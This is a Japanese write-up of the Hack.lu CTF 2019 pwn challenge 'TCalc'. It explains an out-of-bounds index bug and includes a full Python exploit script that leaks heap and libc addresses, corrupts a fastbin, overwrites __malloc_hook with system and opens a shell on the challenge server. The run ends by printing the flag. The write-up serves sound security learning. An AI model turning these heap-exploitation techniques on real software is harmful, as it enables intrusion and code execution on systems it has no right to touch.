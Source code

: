 # [pwn 381pts] TCalc - Hack.lu CTF 2019
64ビットでRELRO以外有効です。
```
$ checksec -f chall
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      Symbols         FORTIFY Fortified       Fortifiable  FILE
Partial RELRO   Canary found      NX enabled    PIE enabled     No RPATH   No RUNPATH   79 Symbols     Yes      0               2       chall
```
ソースコードが配られているので読みます。ヒープ問です。
インデックスチェックを`(0 <= idx < ARR_LEN)`のようにしているのですが、これは`1 < ARR_LEN`または`0 < ARR_LEN`と等価なのでoobがあります。
さて、バイナリは平均を求めるプログラムで、配列の第一要素を数字の数とします。チャンクAとB, Cがあってfree(A), free(B), free(C)するとCからBに、BからAにポインタが作られます。このC->fdをoobで使って平均を求めれば`B->fd + B[1] + B[2] + ...`とうまくいきそうですが、最初の要素は個数なのでポインタが入っていてもダメです。そこでfreeしまくってfastbinにつなげれば、fdはチャンクの先頭を指すので、前のチャンクの最後の要素を数字の個数として認識されられます。これでheap leakできるのであとは自由なheapポインタをoobで使ってやればlibc leakができ、さらにfreeのoobでtcache poisoningすればおしまいです。
```python
from ptrlib import *

def new(cnt, nums):
    sock.sendlineafter(">", "1")
    sock.sendlineafter(">", str(cnt))
    for num in nums:
        sock.sendline(str(num))
    return

def show(index):
    sock.sendlineafter(">", "2")
    sock.sendlineafter(">", str(index))
    sock.recvuntil(": ")
    return float(sock.recvline())

def delete(index):
    sock.sendlineafter(">", "3")
    sock.sendlineafter(">", str(index))
    return

"""
libc = ELF("/lib/x86_64-linux-gnu/libc-2.27.so")
libc_main_arena = 0x3ebc40
sock = Process("./chall")
one_gadget = [0x10a38c, 0x4f322, 0x4f2c5][1]
"""
libc = ELF("./libc.so.6")
libc_main_arena = 0x1c09e0
sock = Socket("tcalc.forfuture.fluxfingers.net", 1337)
one_gadget = [0xeafab, 0xcd3b0, 0xcd3ad, 0xcd3aa][1]
#"""
for addr in libc.find("sh\x00"):
    if addr % 8 == 0:
        libc_binsh = addr
        break
else:
    logger.warn("'sh' not found")
    exit()

offset_tcache = (0x555555559010 - 0x555555559260) // 8
offset_eostdi = (0x55555555a2d0 - 0x555555559260) // 8

# leak heap base
for i in range(7):
    new(2, [0, 0]) # 0
    delete(0)
logger.info("tcache is full")
new(2, [0, 2]) # 0
new(2, [0, 0]) # 1
new(2, [0, 0]) # 2
new(0x420 // 8, [0 for i in range(0x420 // 8)]) # 3
new(2, [0x71, 0]) # 4
new(0x60 // 8, [0x21 for i in range(0x60 // 8)]) # 5
for i in range(7):
    new(0x60 // 8, [0x21 for i in range(0x60 // 8)]) # 6
    delete(6)
new(4, [1, 2, 3, 4]) # 6
for i in range(3):
    delete(i)
heap_base = int((show(offset_eostdi + 4 * 9) * 2 - 0x21) - 0x13a0)
logger.info("heap base = " + hex(heap_base))

# leak libc base
delete(3)
new(2, [heap_base + 0x1400, 2]) # 0
libc_base = int(show(offset_eostdi + 4 * 9 + 1) * 2 - 0x431) - libc_main_arena - 96
logger.info("libc base = " + hex(libc_base))

# fastbin corruption attack
delete(5)
delete(0)
new(2, [heap_base + 0x1850, 0]) # 0
delete(offset_eostdi + 4 * 9 + 1)
new(12, [0x71, libc_base + libc.symbol("__malloc_hook") - 0x23] + [0]*10)
new(12, [0]*12)
#target = libc_base + one_gadget
target = libc_base + libc.symbol("system")
x = (target << (3*8)) & ((1 << 64) - 1)
if x >> 63: x = -((((1 << 64) - 1) ^ x) + 1)
new(12, [0, x, target >> (8*5)] + [0]*9)
logger.info("__malloc_hook done")

# get the shell!
sock.sendlineafter(">", "1")
sock.sendlineafter(">",  str((libc_base + libc_binsh) // 8 - 1))
sock.interactive()
```

ぽん。
```
$ python solve.py 
[+] __init__: Successfully connected to tcalc.forfuture.fluxfingers.net:1337
[+] <module>: tcache is full
[+] <module>: heap base = 0x55aa94bc0040
[+] <module>: libc base = 0x7f287a6ee000
[+] <module>: __malloc_hook done
[ptrlib]$ cat flag.txt
[ptrlib]$ flag{easy_f0r_thee:_arb1trary_fre3}
```

# 感想
面白かったです。